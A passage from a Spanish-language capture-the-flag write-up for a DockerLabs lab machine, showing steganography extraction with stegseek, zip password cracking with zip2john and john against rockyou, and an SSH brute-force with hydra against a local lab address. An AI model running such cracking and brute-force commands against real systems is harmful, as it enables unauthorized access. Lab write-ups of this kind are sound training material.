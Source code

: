 En el `/scripts` no hay nada muy interesante.

#### /spongebob
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2793e34e-920d-4e60-8e1a-da43e9eb1191)

En `/spongebob` hay mas cosas interesantes...

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ab0fa28a-167b-4d56-accc-1b48c814df88)

En la carpeta `/upload` encontramos una imagen.

#### jpg
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a0b5f66a-7846-49aa-af1c-a759d787365b)
Descargamos la imagen y la escaneamos con la herramienta `stegseek`. Y nos trae un fichero.
Nos dice que el nombre original era `seguro.zip`. Asi que vamos a cambiarselo.

```python
❯ unzip seguro.zip
Archive:  seguro.zip
[seguro.zip] secreto.txt password:
```
Intentamos extraerlo pero nos pide una contraseña.

# Fase 3- Explotación

#### Password
Vamos a sacar el hash con zip2john, crackeamos y extraemos.
```python
> zip2john seguro.zip > hash1
> john --wordlist=/usr/share/wordlists/rockyou.txt hash1
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (seguro.zip/secreto.txt)     
1g 0:00:00:00 DONE (2024-06-23 17:20) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
❯ unzip seguro.zip
Archive:  seguro.zip
[seguro.zip] secreto.txt password: 
 extracting: secreto.txt             
❯ cat secreto.txt
     │ File: secreto.txt      |
     |________________________|
   1 │ aprendemos             |
     |------------------------|
```
El contenido del `.zip` era un archivo llamado `secreto.txt` que contiene la palabra `aprendemos`.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1845ce76-bae5-479f-ba1e-ab48abbe9d6c)
Encontramos el usuario `rosa` con la contraseña `aprendemos`. Comando utilizado:
```python
sudo hydra -L /usr/share/wordlists/rockyou.txt -p aprendemos ssh://172.17.0.2 -t 10
```
